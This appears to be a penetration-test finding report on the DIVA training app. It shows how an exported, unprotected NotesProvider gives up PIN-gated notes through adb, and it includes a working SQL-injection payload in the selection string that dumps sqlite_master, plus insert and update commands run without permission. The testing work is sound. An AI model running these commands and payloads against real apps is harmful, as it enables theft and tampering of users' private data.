

Description
The manifest sets android:exported="true" and android:enabled="true" on NotesProvider. It sets no android:permission, readPermission, or writePermission.
The provider owns divanotes.db and the notes table (_id, title, note). onCreate seeds six private notes (office, home, holiday, expense, exercise, weekend). The in-app screen that lists those notes, AccessControl3NotesActivity, shows them only after the user enters a PIN. The provider itself never checks that PIN.
query() builds the statement with SQLiteQueryBuilder. That class wraps the caller-supplied selection in parentheses:
SELECT * FROM notes WHERE (<selection>) ORDER BY titleA selection that closes the parenthesis and comments out the rest changes the query. SELECT * returns three columns, so the UNION has to return three columns. insert(), update(), and delete() are also open to any caller.
Steps performed
- Confirmed the provider flags in the manifest and read
query(),insert(),update(), anddelete()inNotesProvider.java. - Queried the provider from the shell user, which is outside the app:
adb shell content query --uri content://jakhar.aseem.diva.provider.notesprovider/notes - Dumped
sqlite_masterwith a selection that closes the builder's parenthesis:adb shell content query \ --uri content://jakhar.aseem.diva.provider.notesprovider/notes \ --where "1=0) UNION SELECT rowid, sql, tbl_name FROM sqlite_master--" - Inserted a row titled
labproof, updated its note, and queried it back. The six seed notes were not modified. - Wrote the command output to an HTML file and opened it in the device HTML viewer for a screenshot.
- Deleted only the
labproofrow.
The same steps are automated_exploitations_diva/01_exported_notes_provider.py.
Evidence
The seed notes were already in the database. The shell user did not insert them.
Private notes returned with no permission
| _id | title | note |
|---|---|---|
| 5 | Exercise | Alternate days running |
| 4 | Expense | Spent too much on home theater |
| 6 | Weekend | b333333333333r |
| 3 | holiday | Either Goa or Amsterdam |
| 2 | home | Buy toys for baby, Order dinner |
| 1 | office | 10 Meetings. 5 Calls. Lunch with CEO |
SQL injection — sqlite_master
| rowid | sql | tbl_name |
|---|---|---|
| 1 | CREATE TABLE android_metadata (locale TEXT) | android_metadata |
| 2 | CREATE TABLE notes (_id INTEGER PRIMARY KEY AUTOINCREMENT, title TEXT NOT NULL, note TEXT NOT NULL) | notes |
| 3 | CREATE TABLE sqlite_sequence(name,seq) | sqlite_sequence |
Write access — labproof row, then removed
| step | _id | title | note |
|---|---|---|---|
| after insert | 8 | labproof | inserted_without_permission |
| after update | 8 | labproof | tampered_without_permission |
Cleanup query for title='labproof' returned No result found. The six seed notes were left in place.
Full transcript: automated_exploitations_diva/evidence/01_provider_transcript.txt
===== query private notes =====
Row: 0 _id=5, title=Exercise, note=Alternate days running
Row: 1 _id=4, title=Expense, note=Spent too much on home theater
Row: 2 _id=6, title=Weekend, note=b333333333333r
Row: 3 _id=3, title=holiday, note=Either Goa or Amsterdam
Row: 4 _id=2, title=home, note=Buy toys for baby, Order dinner
Row: 5 _id=1, title=office, note=10 Meetings. 5 Calls. Lunch with CEO
===== sql injection (sqlite_master) =====
Row: 0 _id=1, title=CREATE TABLE android_metadata (locale TEXT), note=android_metadata
Row: 1 _id=2, title=CREATE TABLE notes (_id INTEGER PRIMARY KEY AUTOINCREMENT, title TEXT NOT NULL, note TEXT NOT NULL), note=notes
Row: 2 _id=3, title=CREATE TABLE sqlite_sequence(name,seq), note=sqlite_sequence
===== query inserted row =====
Row: 0 _id=8, title=labproof, note=inserted_without_permission
===== query after update =====
Row: 0 _id=8, title=labproof, note=tampered_without_permission
Impact
Any app on the device can read the private notes, add or change rows, and run SQL through the selection string. The PIN gate in front of the notes screen does not apply to this provider. The injected query returned the database schema, which is enough to aim a later UNION at other columns in the same file.
Errors
content insert, content update, and content delete printed no stdout on this Android 9 image. That is normal for this content tool. Each write was checked with a follow-up query: the inserted note came back, the updated note came back as tampered_without_permission, and the cleanup query returned No result found. No command was changed because of that.
No Frida, root, or permission-dialog workaround was required. The shell user could call the provider directly.